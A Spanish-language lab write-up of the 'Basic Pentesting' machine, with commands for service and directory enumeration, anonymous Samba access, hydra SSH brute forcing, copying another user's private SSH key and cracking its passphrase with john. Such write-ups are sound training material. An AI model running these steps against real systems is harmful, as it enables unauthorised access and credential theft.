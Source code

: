 # Basic Pentesting — Writeup

**Objetivo:** Máquina de laboratorio (IP: `$IP`) — Fecha: 2025-09-26
**Alcance:** Pruebas autorizadas sobre la máquina de laboratorio. No publicar credenciales ni claves privadas.

---

## TL;DR

Se identificaron servicios HTTP, SSH y Samba. Se encontró un share anónimo con `staff.txt` que sugiere el usuario `jan`. Se obtuvo acceso SSH a `jan` por fuerza bruta (wordlist `rockyou`), desde `jan` se recuperó la clave privada de `kay` y se crackeó su passphrase con `john`, permitiendo acceso final como `kay`.

---

## Entorno y herramientas

* Kali Linux (o similar)
* nmap 7.95
* ffuf
* smbclient
* hydra
* john / ssh2john
* Wordlists: `/usr/share/wordlists/rockyou.txt`, `directory-list-2.3-small.txt`

Evidencia completa y salidas largas se almacenan en la carpeta `evidence/` (archivos con credenciales o claves están **REDACTED** y no se suben públicamente).

---

## Enumeración (nmap)

**Comando**

```bash
nmap -sV --open $IP
```

**Comentario:** `-sV` detecta versiones de servicios. 

**Resumen**

* 22/tcp open  ssh (OpenSSH 8.2p1)
* 80/tcp open  http (Apache/2.4.41)
* 139/445/tcp open Samba (smbd)

(Salida completa: `evidence/nmap_$IP.txt`)

---

## 2) Enumeración de directorios web (ffuf)

**Comando**

```bash
ffuf -u http://$IP/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 300 -s -c
```

**Comentario:** `-t 300` define la cantidad de hilos; `-s` silencia headers extra; `-c` activa color en resultado.

**Resultado relevante**

* `/development`

(Detalle: `evidence/ffuf_$IP.txt`)

---

## 3) Samba — share anónimo

**Enumeración**

```bash
smbclient -L //$IP
```

**Resultado**

* Share accesible: `Anonymous (Disk)`

**Conexión y archivo**

```bash
smbclient //$IP/Anonymous
smb: \> ls
smb: \> get staff.txt
```

**staff.txt (extracto)**

> "PLEASE do not upload non-work-related items to this share... (This means you too, Jan!) — Kay"

**Comentario:** Indicio de usuario `jan`. Revisar si el share expone archivos sensibles o rutas del filesystem.

---

## Fuerza bruta SSH (usuario: jan)

**Comando**

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt -t 4 ssh://$IP
```

**Comentario:** `-l` especifica login; `-P` wordlist; `-t 4` tareas paralelas. Usar siempre con autorización.

**Resultado (REDACTED en repo público)**

* Credenciales válidas obtenidas para `jan` (guardadas en `evidence/hydra_result.txt` con redacción).

---

## Acceso inicial y obtención de clave

**Operaciones realizadas**

```bash
ssh jan@$IP
# desde la sesión de jan:
scp jan@$IP:/home/kay/.ssh/id_rsa ./
```

**Comentario:** La clave privada `id_rsa` estaba accesible desde la cuenta `jan` — investigar permisos del fichero y si el share/sistema expuso la ruta. No se sube la clave al repo.

---

## Cracking de passphrase y acceso final

**Conversión y cracking**

```bash
ssh2john id_rsa > rsa_john.txt
john rsa_john.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Resultado (REDACTED)**

* Passphrase crackeada (detalle almacenado en `evidence/john_result.txt`, con datos sensibles redacted).

**Uso**

```bash
ssh -i id_rsa kay@$IP
# introducir passphrase para la clave
cat pass.bak
```

(Contenido sensible de `pass.bak` redacted en repo.)

---

## Evidencia

* `evidence/nmap_result.txt`
* `evidence/ffuf_result.txt`
* `evidence/smbclient_list.txt`
* `evidence/smbclient_anonymous.txt`
* `evidence/staff.txt` (extracto)
* `evidence/hydra_result.txt` (redacted)
* `evidence/rsa_john.txt` (hash conversion)
* `evidence/john_result.txt` (redacted)


